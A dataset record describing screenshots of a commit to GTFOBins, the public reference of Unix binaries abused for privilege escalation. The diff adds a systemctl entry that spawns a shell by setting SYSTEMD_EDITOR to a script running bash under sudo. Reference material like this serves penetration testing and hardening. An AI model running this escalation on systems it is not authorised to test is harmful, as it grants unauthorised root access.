

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/systemctl.md, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 951 px from its top, so only the background shows below that.

Commit message:
Add shell for systemctl

```diff
--- a/_gtfobins/systemctl.md
+++ b/_gtfobins/systemctl.md
@@ -1,5 +1,14 @@
 ---
 functions:
+  shell:
+    - code: |
+        cat >/tmp/getshell <<EOF
+        #!/usr/bin/env bash
+        bash
+        EOF
+        chmod +x /tmp/getshell
+        sudo SYSTEMD_EDITOR=/tmp/getshell systemctl edit <SERVICE>
+    - description: This invokes the `SYSTEMD_EDITOR` that is specified. You could also just use `vi` and start a subshell manually.
   suid:
     - code: |
         TF=$(mktemp).service
```
